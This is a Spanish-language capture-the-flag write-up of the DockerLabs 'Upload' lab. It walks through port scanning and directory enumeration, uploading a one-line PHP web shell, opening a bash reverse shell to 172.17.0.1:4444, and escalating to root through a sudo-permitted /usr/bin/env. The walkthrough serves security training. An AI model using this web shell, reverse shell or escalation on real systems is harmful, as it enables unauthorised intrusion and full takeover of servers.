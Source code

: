 ```yaml
---
title: DockerLabs - Upload
summary: "Write-up del laboratorio Upload de DockerLabs"
author: elcybercurioso
date: 2025-10-28 12:00
categories: [Post, DockerLabs]
tags: [fácil, arbitrary file upload, rce, sudo]
media_subpath: "/assets/img/posts/dockerlabs_upload"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 00:42 GMT
Initiating ARP Ping Scan at 00:42
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:42, 0.10s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 00:42
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:42, 10.25s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.53 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65539 (2.622MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ nmap -sCV -p80 172.17.0.2                           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 00:42 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

## análisis

Comenzamos revisando lo que contiene la pagina principal del puerto 80 del laboratorio, donde nos permiten subir un fichero:

![Desktop View](/20251028014323.webp){: width="972" height="589" .shadow}

## explotación

Tratamos de subir un fichero `.php` que, al pasarle el parámetro `?cmd`, podemos indicar un comando, y si la configuración lo permite, se ejecutará:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ cat shell.php                                                                                           
<?php
        system($_GET['cmd']);
?>
```

Vemos que no hay ningún filtro que nos impida la subida:

![Desktop View](/20251028014545.webp){: width="972" height="589" .shadow}

Ahora buscamos recursos donde puede haber guardado la aplicación nuestro script:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x .txt,.html,.php
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/index.html           (Status: 200) [Size: 1361]
/upload.php           (Status: 200) [Size: 1357]
```

Lo encontramos en la carpeta `uploads`, y vemos que podemos ejecutar comando sin ningún problema:

![Desktop View](/20251028014749.webp){: width="972" height="589" .shadow}

Teniendo esto claro, obtenemos una consola en la máquina con un payload básico de `bash`:

![Desktop View](/20251028014958.webp){: width="972" height="589" .shadow}
```bash
bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/4444 0>%261'
```

Habiéndonos puesto en escucha antes de ejecutar el comando en la web, ahora deberíamos haber obtenido la consola:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ nc -nlvp 4444 
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 46406
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@54d9841b83ec:/var/www/html/uploads$ whoami   
whoami
www-data
```

## escalada de privilegios

Revisamos los permisos SUDO del usuario `www-data`, y vemos que tiene asignado que puede ejecutar el binario `/usr/bin/env` como el usuario `root`:

```bash
www-data@54d9841b83ec:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on 54d9841b83ec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 54d9841b83ec:
    (root) NOPASSWD: /usr/bin/env
```

 En [GTFOBins](https://gtfobins.github.io/gtfobins/env/#sudo) nos indican que para obtener acceso como el usuario `root`, podemos hacerlo de la siguiente manera:

![Desktop View](/20251028015325.webp){: width="972" height="589" .shadow}

Ejecutamos el comando que nos indican, y vemos que nos hemos convertido en `root` en la máquina víctima:

```bash
www-data@54d9841b83ec:/var/www/html/uploads$ sudo env /bin/sh
# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>